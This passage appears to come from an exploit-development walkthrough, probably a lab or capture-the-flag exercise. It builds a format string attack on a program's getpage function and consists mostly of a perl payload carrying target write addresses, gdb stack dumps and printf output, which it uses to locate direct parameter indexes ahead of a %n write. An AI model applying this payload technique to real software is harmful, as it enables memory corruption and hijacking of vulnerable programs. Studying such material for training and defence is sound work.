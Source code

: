 Now we must replace the 000 with the right values. But first, we must ensure that we're writing 
data to the right address. So we replace %n with %x (to avoid seg faults), and we're finding the 
right direct parameters (remember to keep the same size of the format string; otherwise you'll 
affect the index of the parameters):
```
	perl -e 'print "A"x8 .                                                \
	"%001\$lluCCCCC"."%002\$lluCCCCC"."%003\$lluCCCCC"."%004\$lluCCCCC".  \
	"%008\$lluCCCCC"."%009\$lluCCCCC"."%010\$lluCCCCC"."%011\$lluCCCCC".  \
    "\x78\x20\x60\x00\x00\x00\x00\x00"."\x79\x20\x60\x00\x00\x00\x00\x00".\
	"\x7a\x20\x60\x00\x00\x00\x00\x00"."\x7b\x20\x60\x00\x00\x00\x00\x00".\
	"\x7c\x20\x60\x00\x00\x00\x00\x00"."\x7d\x20\x60\x00\x00\x00\x00\x00".\
	"\x7e\x20\x60\x00\x00\x00\x00\x00"."\x7f\x20\x60\x00\x00\x00\x00\x00"'
```

```assembly
1: x/i $pc
=> 0x401021 <getpage+955>:	callq  0x400a30 <printf@plt>
(gdb) x/64xg $rsp
	0x7fffffffd9f0:	0x0000000500000006	0x00007fffffffdee0
	0x7fffffffda00:	0x0000000d00000040	0x00007fffffffdce0
	0x7fffffffda10:	0x2e3131322e383231	0x000034382e393831
	0x7fffffffda20:	0x0000000000000000	0x0000000000000000
	0x7fffffffda30:	0x0000000000000000	0x0000000000000000
	0x7fffffffda40:	0x00007ffff7ff99c8	0x00000000006051c0
	0x7fffffffda50:	0x0000000000000000	0x0000000000000001
	0x7fffffffda60:	0x0000000000000000	0x0000000000000000
	0x7fffffffda70:	0x0000000000000000	0x0000000000000000
	0x7fffffffda80:	0x4141414141414141	0x756c6c2431303025
	0x7fffffffda90:	0x3030254343434343	0x434343756c6c2432
	0x7fffffffdaa0:	0x6c24333030254343	0x254343434343756c
	0x7fffffffdab0:	0x43756c6c24343030	0x3830302543434343
	0x7fffffffdac0:	0x43434343756c6c24	0x6c6c243930302543
	0x7fffffffdad0:	0x3025434343434375	0x4343756c6c243031
	0x7fffffffdae0:	0x2431313025434343	0x4343434343756c6c
	0x7fffffffdaf0:	0x0000000000602078	0x0000000000602079
	0x7fffffffdb00:	0x000000000060207a	0x000000000060207b
	0x7fffffffdb10:	0x000000000060207c	0x000000000060207d
	0x7fffffffdb20:	0x000000000060207e	0x000000000060207f
	0x7fffffffdb30:	0x0000000000000000	0x0000000000000000
(gdb) ni
AAAAAAAA140737488335600CCCCC140737351866848CCCCC140737348895744CCCCC140737353955136CCCCC
55834574912CCCCC140737488346336CCCCC3328495691197067825CCCCC57415898314801CCCCCx 
`0x0000000000401026 in getpage ()
```
Ok let's anayse the output:
```
	AAAAAAAA
	140737488335600     CCCCC	--> 0x7fffffffb2f0		--> $1
	140737351866848     CCCCC	--> 0x7ffff7dd59e0		--> $2
	140737348895744     CCCCC	--> 0x7ffff7b00400		--> $3
	140737353955136     CCCCC	--> 0x7ffff7fd3740		--> $4
	55834574912         CCCCC	--> 0xd00000040			--> $8
	140737488346336     CCCCC	--> 0x7fffffffdce0		--> $9 
	3328495691197067825 CCCCC	--> 0x2e3131322e383231	--> $10
	57415898314801      CCCCC	--> 0x34382e393831		--> $11
```
Do you see the arguments?
```
	0x7fffffffda00:	0x0000000d00000040	0x00007fffffffdce0
	0x7fffffffda10:	0x2e3131322e383231	0x000034382e393831
```
So, if $8 returns the value 0x0000000d00000040, then $38 will return the value 0x0000000000602078,
$39 will return the value 0x0000000000602079, and so on.
